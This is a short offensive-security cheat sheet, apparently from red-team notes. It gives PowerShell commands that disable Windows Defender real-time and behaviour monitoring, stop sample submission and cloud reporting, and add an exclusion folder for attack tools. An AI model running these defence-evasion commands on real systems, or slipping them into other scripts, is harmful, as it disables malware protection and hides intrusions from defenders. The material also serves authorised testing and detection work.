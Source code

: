 # Windows Defender

## Windows Defender

Require high privilege account

### Disable AV

```csharp
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -SubmitSamplesConsent NeverSend
Set-MpPreference -MAPSReporting Disabled
```

### Create Exclusion folder

```csharp
PS C:\> Add-MpPreference -ExclusionPath C:\Users\b3v1l\Desktop\tools\
```



